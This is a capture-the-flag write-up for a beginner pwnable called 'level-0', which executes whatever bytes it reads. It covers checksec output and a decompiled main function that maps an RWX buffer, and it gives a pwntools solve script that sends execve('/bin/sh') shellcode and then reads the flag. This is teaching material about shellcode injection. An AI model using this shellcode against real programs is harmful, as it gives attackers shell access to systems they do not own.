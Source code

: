 # level-0

## Introduction

A pwnable passed down from my mentor, @huckfinn. This problem focuses on
creating shellcode.

## Information Gathering

### Hint #1

> This program will literally do anything you want it to do.

```shell
$ checksec ./level-0
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Dynamic

If we run the program we see that the program is waiting for input. When we
enter the input, the program immediately segfaults. Given the hint, it makes me
think that this program is literally running the bytes given to it. Since
`test` doesn't correspond to valid instructions in amd64, the program dies.

```shell
$ ./level-0
test
Segmentation fault (core dumped)
```

### Static

We threw the program in Ghidra and this was the result after some cleanup.

```c
int main(void){
  code *__buf;

  init_chal();
  __buf = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  read(0,__buf,4096);
  (*__buf)();
  return 0;
}
```

Notably, the `main` function is `mmap`ing the region of memory where `buf` is
with the following arguments: `mmap(addr=NULL, length=0x1000, prot=0x7,
flags=0x22, fd=0xfffffff, offset=0x0)`

The prot (protections) argument describes the desired memory protection of the
mapping. It is a bitwise OR of one or more of the following flags:

```c
#define PROT_READ	0x1		/* page can be read */
#define PROT_WRITE	0x2	   /* page can be written */
#define PROT_EXEC	0x4		/* page can be executed */
#define PROT_SEM	0x8		 /* page may be used for atomic ops */
#define PROT_NONE	0x0		/* page can not be accessed */
```

With a prot bitmask of 0x7 the memory location is set to read, write, and
execute. The combination of the latter two are particularly interesting when we
see that it is actually executing the contents of `buf` as though there are
instructions there. There currently aren't, but could there be?

Yes! We just need to send the program some shellcode to execute.

## Strategy

The idea is simple. We just need to write some shellcode to `execv` a shell. We
could do this by hand, which would be a great exercise, but we're going to
leverage `pwntool` to do the hard part for us.

With `pwntools` we can start our `shellcraft` module to launch a shell pretty
easily.

```python
exe = ELF('./level-0')
context.binary = exe
# Create the shellcode.
shellcode = shellcraft.sh()
```

What might trip you up is how the `shellcraft` module works. You typically need
to specify the architecture and the operating system such that is would
something like this:

```python
# Create the shellcode.
shellcode = shellcraft.amd64.linux.sh()
```

However, because we have set `context.binary` in our script, `pwntools` is
smart enough to figure that part out. Hopefully this saves you some heartache.

You can print out the result by calling `print(shellcode)` and see the
following assembly:

```asm
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
/* push b'/bin///sh\x00' */
push 0x68
mov rax, 0x732f2f2f6e69622f
push rax
mov rdi, rsp
/* push argument array ['sh\x00'] */
/* push b'sh\x00' */
push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
xor esi, esi /* 0 */
push rsi /* null terminate */
push 8
pop rsi
add rsi, rsp
push rsi /* 'sh\x00' */
mov rsi, rsp
xor edx, edx /* 0 */
/* call execve() */
push SYS_execve /* 0x3b */
pop rax
syscall
```

Now all that is left is to send it the program. We can't send the assembly
output as shown above; we need to convert it to the actual hexadecimal opcodes
that the program will run with the `asm` function. We can do that and send it
to the program. Putting it all together looks something like the following:

```python
# Pop a shell.
shellcode = shellcraft.sh()
io.sendline(asm(shellcode))

# Get the flag.
io.sendline("cat flag.txt")
flag = io.recvline()
log.success(f"Flag: {flag}")
```

## The Solution (with a caveat)

You should be able to run the script like so and get the flag!

```shell
$ python3 ./solve.py
[+] Flag: b'flag{RememberAllIAmOfferingIsTheTruth}\n'
[+] Time: 0.1028270721435546
```

## Mitigations

I won't even discuss exploitation mitigations since the develops purposefully
made `buf` RWX. :)
